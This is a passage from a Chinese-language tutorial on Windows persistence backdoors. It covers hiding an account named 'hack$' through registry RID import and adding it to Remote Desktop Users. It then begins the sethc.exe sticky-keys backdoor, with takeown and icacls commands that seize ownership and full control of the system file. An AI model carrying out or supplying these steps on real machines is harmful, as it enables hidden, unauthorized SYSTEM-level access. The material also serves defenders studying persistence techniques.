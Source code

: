 **删除用户**

```batch
net user hack$ /del
```

**导入用户和 RID 注册表**

双击运行 hack 和 03e9 注册表文件，进行导入

**修改用户组**

```batch
# 使桌面登录不显示
net localgroup "remote desktop users" hack$ /add
```

**查看用户**

发现除注册表外其他无法查看到 `hack$` 用户

![image.png](https://img.ghostliner.top/mHKjhz.png)

## 2. Shift 后门

shift 后门指的是 Windows 系统为了不方便按组合键的人设计的 sethc.exe 程序，即 Windows 的粘滞键，当按下 Shift 键五次时，Windows 会触发“粘滞键”功能，运行 sethc.exe 。攻击者可以替换 sethc.exe 为命令提示符（ cmd.exe ）或其他恶意程序，从而在锁屏界面获得未授权的命令行访问。此程序是能直接以 System 权限执行命令的。

### 2.1. 获取控制权限

在 Windows 操作系统中，默认情况下，`sethc.exe` 的所有者是 `TrustedInstaller`。
`TrustedInstaller` 是 Windows 模块安装程序的一部分，负责管理和保护操作系统文件的权限，确保只有经过授权的用户或进程能够修改它。

```batch
icacls C:\Windows\System32\sethc.exe
# (F)  完全控制权限
# (RX) 读取和执行权限
```

![image.png](https://img.ghostliner.top/P9pAaY.png)

替换当前用户为所有者

```batch
takeown /f C:\Windows\System32\sethc.exe
# 管理员组获取所有权
takeown /f C:\Windows\System32\sethc.exe /a
```

![image.png](https://img.ghostliner.top/PRuB6V.png)

给与当前用户完全控制权限

```batch
# 给予ld用户给与完全控制权限
icacls C:\Windows\System32\sethc.exe /grant ld:F
```
